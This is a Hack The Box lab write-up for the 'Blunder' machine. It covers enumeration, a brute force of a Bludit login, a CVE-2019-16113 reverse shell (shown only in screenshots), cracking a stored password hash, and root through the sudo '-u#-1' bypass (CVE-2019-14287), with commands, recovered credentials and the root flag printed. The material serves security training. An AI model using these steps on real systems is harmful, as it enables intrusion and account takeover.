# Blunder (`10.10.10.191`)

## Summary

I find a username through web directory enumeration, brute force the password for this user on the `Bludit` app, use `CVE-2019-16113` to get a shell as `www-data`, find stored credentials on the box to escalate to `hugo`, and then use `CVE-2019-14287` to get `root`.

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `blunder.htb` to `10.10.10.191`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports blunder.htb
# Nmap 7.80 scan initiated Thu Dec 10 19:49:16 2020 as: nmap -A -v -p- -Pn -oN allports blunder.htb
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.077s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: A0F0E5D852F0E3783AF700B6EE9D00DA
|_http-generator: Blunder
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Device type: general purpose
Running (JUST GUESSING): Linux 2.6.X|3.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3.7
Aggressive OS guesses: Linux 2.6.18 - 2.6.22 (92%), Linux 2.6.18 (85%), Linux 3.7 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 11.017 days (since Sun Nov 29 19:27:15 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   82.73 ms 10.10.14.1
2   82.77 ms blunder.htb (10.10.10.191)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 10 19:52:25 2020 -- 1 IP address (1 host up) scanned in 189.55 seconds
```

### Enumerating Port 80

The homepage looks like this.


Directory enumeration reveals a few interesting paths: 

- `/admin`, for a login page
- `/todo.txt`, which gives me a username
- `/install.php`, whcih tells me the Bludit software is running

```bash
$ gobuster dir -u http://blunder.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -e -k -s 200,204,301,302,307,403,500 -x "txt,html,php,asp,aspx,jsp" -t 30 --timeout 15s -o tcp_80_gobuster

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://blunder.htb/
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,403,500
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     asp,aspx,jsp,txt,html,php
[+] Expanded:       true
[+] Timeout:        15s
===============================================================
2020/12/10 19:50:32 Starting gobuster
===============================================================
http://blunder.htb/about (Status: 200)
http://blunder.htb/admin (Status: 301)
http://blunder.htb/install.php (Status: 200)
http://blunder.htb/robots.txt (Status: 200)
http://blunder.htb/todo.txt (Status: 200)
http://blunder.htb/usb (Status: 200)


$ curl http://blunder.htb/todo.txt
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING

$ curl http://blunder.htb/install.php
Bludit is already installed ;)
```

The Bludit login page is at `http://blunder.htb/admin/login.php`





I tried to brute force the login with the `rockyou.txt` wordlist, but no luck. Custom wordlist is up next.





```bash
$ ruby 48746.rb -r http://10.10.10.191/admin/login.php -u fergus -w wordlist.txt
[*] Trying password: the
[*] Trying password: and
[*] Trying password: for
[*] Trying password: Load
[*] Trying password: Plugins
...
[*] Trying password: character
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```

I use the credentials `fergus:RolandDeschain` on the admin portal and can log in.



Judging from the source, it looks like `Bludit 3.9.2`.



## Reverse Shell

I use https://www.exploit-db.com/exploits/48701 to get a shell. I make a few modifications to the exploit.

I set the `url`, `username` and `password`.



I modify and generate the payloads.





I run the exploit.



And run the payload after starting a `nc` listener.





## Upgrading Shell

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation to `hugo`

I find a hashed password in a database.

```json
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        ...
}
```

CrackStation cracks it easily. 



I test the credentials `hugo:Password120`. They work.

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$
```

## Privilege Escalation to `root`

I find two screenshots on `shaun`'s desktop.



I move them to my Kali machine with `nc`.





Screenshot 1 seems to show an attack on the `poc.py` file that results in a `root` shell.



The second screenshot was less interesting.



The shown `poc.py` file is not in the same location it was before.





I use https://www.exploit-db.com/exploits/47502 to get `root`.

```bash
hugo@blunder:/usr/local$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash

hugo@blunder:/usr/local$ sudo -V
sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
hugo@blunder:/usr/local$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/usr/local# cd /root
cd /root
root@blunder:/root# ls
ls
root.txt
root@blunder:/root# cat root.txt
cat root.txt
948a2fb9b481a1c0ef8ec2a278875305
```